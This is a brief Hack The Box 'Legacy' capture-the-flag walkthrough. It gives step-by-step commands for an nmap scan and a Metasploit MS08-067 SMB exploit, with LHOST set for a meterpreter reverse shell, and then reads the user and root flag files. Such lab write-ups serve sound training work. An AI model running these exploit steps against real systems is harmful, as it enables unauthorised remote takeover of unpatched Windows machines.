

# Hack The Box - Legacy

```sh
export IP=10.10.10.4
```

```sh
sudo nmap -A -T4 -p- -oN nmap-initial $IP
```


Start metasploit
```sh
msfconsole
```

```
search msb_version
```


```
use auxiliary/scanner/smb/smb_version
```

```
set rhosts 10.10.10.4
```

```
run 
```


```
use exploit/windows/smb/ms08_067_netapi
```

Set RHOSTS
```
set rhosts 10.10.10.4
```
Check your ip addr tun0
Set LHOST
```
set lhost 10.10.14.3
```

```
exploit
```

In meterpreter shell
```
getuid
```
```
sysinfo
```


```
cd ../../"documents and settings"
```
```
dir
```

```
cd john/Desktop
```

```
cat user.txt
```


```
cd ../../Administrator/Desktop
```

```
cat root.txt
```

